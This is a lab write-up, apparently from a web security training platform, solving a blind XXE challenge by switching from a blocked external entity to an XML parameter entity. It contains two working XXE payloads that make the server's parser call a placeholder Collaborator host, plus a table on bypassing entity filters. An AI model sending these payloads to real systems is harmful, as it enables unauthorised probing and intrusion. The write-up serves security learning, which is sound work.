

---

### Lab: Blind XXE with out-of-band interaction via XML parameter entities

**Difficulty:** Practitioner

**Status:** Solved

---

### Lab Overview

This lab has a “Check stock” feature that parses XML input, but:

- It does **not** display any unexpected values in the response.
- It also **blocks regular external entities**.

Because of this, the normal Blind XXE payload (using a normal external entity) did not work. There was no error message and no interaction in Burp Collaborator.

**Goal:** Use an **XML parameter entity** to trigger a DNS lookup and HTTP request to Burp Collaborator.

!image.png

---

!image.png

!image.png

### What I Tried First (Didn’t Work)

I first tried the normal external entity payload:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY test SYSTEM "<http://YOUR-COLLABORATOR.oastify.com>">
]>
<stockCheck>
  <productId>&test;</productId>
  <storeId>1</storeId>
</stockCheck>
```

**Result:**

- No useful response from the server
- No DNS or HTTP interaction in Collaborator

This confirmed that the application is blocking normal external entities.

!image.png

---

!image.png

### Solution: Using Parameter Entities

Since normal entities were blocked, I switched to **XML Parameter Entities** (declared with `%`).

**Final Payload used:**

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY % test SYSTEM "<http://YOUR-COLLABORATOR.oastify.com>">
  %test;
]>
<stockCheck>
  <productId>1</productId>
  <storeId>1</storeId>
</stockCheck>
```

---

!image.png

!image.png

### What Happened

- After sending the above payload, I checked Burp Collaborator.
- This time I received **DNS** and **HTTP** interactions.
- Shortly after, the lab showed the “Congratulations, you solved the lab!” message.

This proved that the parameter entity was successfully processed by the XML parser and triggered an out-of-band request.


---

### Key Learning

| Type of Entity | Syntax | When to use |
| --- | --- | --- |
| Normal External Entity | `<!ENTITY name SYSTEM "...">` | When normal XXE works |
| Parameter Entity | `<!ENTITY % name SYSTEM "...">` | When normal external entities are blocked |

In this lab, the application was specifically filtering normal external entities, so using a **parameter entity** was the way to bypass the restriction and still achieve out-of-band interaction.

---

### Summary

- Normal external entity → Blocked (no interaction)
- Parameter entity → Worked (DNS + HTTP interaction received)
- Lab solved successfully

---